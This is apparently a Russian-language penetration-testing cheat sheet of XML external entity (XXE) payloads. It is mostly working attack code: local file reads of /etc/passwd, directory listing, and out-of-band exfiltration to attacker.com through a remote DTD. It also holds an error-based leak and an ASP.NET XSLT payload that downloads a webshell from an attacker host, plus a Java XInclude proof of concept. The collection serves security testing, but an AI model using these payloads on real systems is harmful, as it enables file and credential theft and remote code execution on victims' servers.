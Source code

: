 # Examples XXE

## Basic

1 Можем использовать объявленную сущность в теле XML (здесь через &)

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com/xxe"> ]>
<root>
    <data>&xxe;</data>
</root>
```

2 Можем использовать объявленную сущность как определение следующей сущности в Doctype (здесь через %).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://evil.com/xxe"> %xxe; ]>
<root></root>
```

## Include local file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```

Некоторые парсеры позволяют листить директории:&#x20;

```markup
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///Users/"> ]>
```

## http request

```markup
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://example.com/test"> %ext;
]>
<r></r>
```

```markup
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % payload SYSTEM "file:///etc/">
<!ENTITY % dtd SYSTEM "ftp://example.com/poc2.txt">
%dtd;
%release;
]><foo>ehlo</foo>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test SYSTEM "https://yandexsjknvdkjsdnvkjnskjvnskjd.ru/xxe">
```

## OOB+XXE

Эта техника (OOB - Out-of-Band) используется для отправки результата чтения локального файла

У себя (на attacker.com) раполагаем evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

Отправляем уязвимому веб-приложению

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

TODO: переделать в oob на ftp сервер. Это полезно в том случае, если выводимый файл содержит переносы строк (тк они бьют http запрос)

### С PortSwigger

### 1 OOB -> External Server

Полезная нагрузка (malicious.dtd)

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

На уязвимом сервере

```markup
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### 2 OOB via Error

Полезная нагрузка (malicious.dtd)

```markup
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

На уязвимом сервере

```markup
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## XXE -> RCE

на php просто, есть примеры в инете

на ASP.Net такой пэйлоад видел в статье — [https://blog.zsec.uk/out-of-band-xxe-2/amp/](https://blog.zsec.uk/out-of-band-xxe-2/amp/), на проекте не взлетел:

```markup
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://VICTIM.COM/pwned">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://ATTACKERHOST/webshell.aspx",
                       @"c:\inetpub\wwwroot\zephrShell.aspx");

    return "Shell Uploaded Successfully @ /zephrShell.aspx";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## XInclude

```markup
<?xml version='1.0' encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <p>Текст моего документа</p>
  <xi:include text="parse" href="copyright.xml"/>
</document>
```

Java PoC

```java
package com.company;

import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;

import org.xml.sax.Attributes;
import org.xml.sax.SAXException;
import org.xml.sax.helpers.DefaultHandler;

public class Main {

    public static void test() {
        final String fileName = "test.xml";

        /* test.xml
        <Document xmlns="urn:iso:std:iso:20022:tech:xsd:pain.001.001.03" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xi="http://www.w3.org/2001/XInclude">
            <PHONEBOOK>
                <PERSON>
                    <NAME>
                        <MAIN_NAME>Noname person</MAIN_NAME>Joe Wang
                    </NAME>
                    <Nm xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="https://example.com" /></Nm>
                </PERSON>
            </PHONEBOOK>
        </Document>
        */

        try {
            SAXParserFactory factory = SAXParserFactory.newInstance();
            factory.setXIncludeAware(true);  // без этого не будет работать !!!
            factory.setNamespaceAware(true); // без этого не будет работать !!!
            factory.setFeature("http://apache.org/xml/features/xinclude", true); // без этого не будет работать !!!
            SAXParser saxParser = factory.newSAXParser();

            DefaultHandler handler = new DefaultHandler() {
                boolean name = false;
                // Метод вызывается когда SAXParser "натыкается" на начало тэга
                @Override
                public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
                    // Если тэг имеет имя NAME, то мы этот момент отмечаем - начался тэг NAME
                    if (qName.equalsIgnoreCase("Nm")) {
                        name = true;
                    }
                }

                // Метод вызывается когда SAXParser считывает текст между тэгами
                @Override
                public void characters(char ch[], int start, int length) throws SAXException {
                    // Если перед этим мы отметили, что имя тэга NAME - значит нам надо текст использовать.
                    if (name) {
                        System.out.println("Name: " + new String(ch, start, length));
                        name = false;
                    }
                }
            };

            // Стартуем разбор методом parse, которому передаем наследника от DefaultHandler, который будет вызываться в нужные моменты
            saxParser.parse(fileName, handler);
            System.out.println("Test");
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
	// write your code here
        test();
        System.out.println("Test");
    }
}

```
